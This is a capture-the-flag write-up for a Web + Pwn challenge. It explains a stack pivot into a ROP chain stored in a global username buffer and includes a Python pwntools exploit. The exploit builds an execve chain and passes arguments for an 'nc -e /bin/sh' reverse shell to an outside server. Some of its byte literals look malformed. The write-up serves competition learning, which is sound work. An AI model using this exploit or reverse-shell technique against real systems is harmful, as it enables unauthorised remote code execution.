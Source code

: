 With the help of the above logic, I was able to write the payload.
There were username and password variables on the global variable side, and I could input `0xff` here.

Therefore, I wrote a ROP chain on the username and was able to overwrite `rbp` through the overflow vulnerability, and through this, I performed a stack pivot and executed the ROP chain on the username side.

However, for these Web + Pwn challenges, you can't just run the shell, you have to get the flag through reverse shell. This is where I wasted a lot of time. I tried to open the reverse shell through execve syscall, but something didn't work properly in the process of passing the arguments.

Also, here's a funny thing, to open a reverse shell, the domain name must not contain 0, and the port number must not contain 0 either. This is because the input is weird due to url encoding! lol

At that time, I had not set up a domain name on the my Vultr server, so I borrowed another team member's server and wrote an exploit!

```py
import requests
from pwn import *
import string
from urllib import parse

host = b'34.107.93.11'
port = 32650
url = b"http://34.107.93.11:32650"

# host = b'localhost'
# port = 1339
# url = b"http://localhost:1339"
username_rop = b'\x10\30\x4d00000' # RBP
# START ROP
# 0x0000000000452a17
username_rop += b'\x17\x2a\x4500000' # POP RAX; RET
username_rop += b'\x3b0000000' # execve syscall number
# 0x0000000000402c8f : pop rdi ; ret
username_rop += b'\x8f\x2c\x4000000' # POP RDI; RET
username_rop += b'\x50\x22\x4d00000' # /bin/sh
# 0x000000000040acfe : pop rsi ; ret
username_rop += b'\xfe\xac\x4000000' # POP RSI; RET
username_rop += b'\x20\x22\x4d00000' # NULL
# 0x00000000004898eb : pop rdx ; pop rbx ; ret
username_rop += b'\xeb\x98\x4800000' # POP RDX; POP RBX; RET
username_rop += b'\xa0\x22\x4d00000' # NULL
username_rop += b'\xa0\x22\x4d00000' # NULL
# 0x0000000000402a44 : syscall
username_rop += b'\x44\x2a\x4000000' # SYSCALL
username_rop += b'a'*0x10

context.log_level = 'debug'

register = b'''POST /login HTTP/1.1\r
Host: 34.107.93.11:32462\r

username=%b&password=%b''' % (b'caca',b'caca')

p = remote(host, port)
p.send(register)
p.close()

passwd = b'\x50\x22\x4d00000' # /bin/nc
passwd += b'\x58\x22\x4d00000' # choiys.kr
passwd += b'\x62\x22\x4d00000' # 1234
passwd += b'\x67\x22\x4d00000' # -e
passwd += b'\x6a\x22\x4d00000' # /bin/sh
```
